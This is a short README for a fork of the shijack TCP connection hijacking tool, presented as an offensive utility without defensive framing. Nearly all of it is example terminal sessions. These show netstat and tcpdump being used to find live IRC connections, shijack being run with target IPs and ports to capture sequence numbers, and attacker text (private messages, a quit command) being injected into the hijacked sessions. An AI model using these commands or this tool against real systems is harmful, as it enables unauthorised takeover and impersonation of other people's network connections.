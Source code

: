 This is a fork of shijack connection hijacking tool


Examples:

Local hijacking:
> (root@inch shijack)# netstat -an | grep 6667
> tcp4       0      0  203.43.200.22.2493      198.163.216.60.6667    ESTABLISHED
> (root@inch shijack)# ./shijack-fbsd dc0 203.43.200.22 2493 198.163.216.60 6667
> Waiting for SEQ/ACK  to arrive from the srcip to the dstip.
> (To speed things up, try making some traffic between the two, /msg person asdf
> Got packet! SEQ = 0xa1963181 ACK = 0xd4f7175f
> Starting hijack session, Please use ^C to terminate.
> Anything you enter from now on is sent to the hijacked TCP connection.
> privmsg spwny :h0h0h0.
> privmsg moo :you fat cow :(
> ^CClosing connection..
> Done, Exiting.

Subnet hijacking:
> (root@inch shijack)# tcpdump -n -i dc0 | grep 6667
> tcpdump: listening on dc0
> 14:36:23.174889 206.221.255.190.6667 > 203.43.200.114.19970: P 2867450580:2867450719(139) ack 8410247 win 17503 (DF)
> 14:36:23.329866 203.43.200.114.19970 > 206.221.255.190.6667: . ack 139 win 7302 (DF)
> ^C
> 15 packets received by filter
> 0 packets dropped by kernel
> (root@inch shijack)# ./shijack-fbsd dc0 203.43.200.114 19970 206.221.255.190 6667
> Waiting for SEQ/ACK  to arrive from the srcip to the dstip.
> (To speed things up, try making some traffic between the two, /msg person asdf
> Got packet! SEQ = 0x8054de ACK = 0xaae9d5a3
> Starting hijack session, Please use ^C to terminate.
> Anything you enter from now on is sent to the hijacked TCP connection.
> privmsg spwny :hi!
> privmsg spwny :lalala.
> quit :hehe!
> ^CClosing connection..
> Done, Exiting.
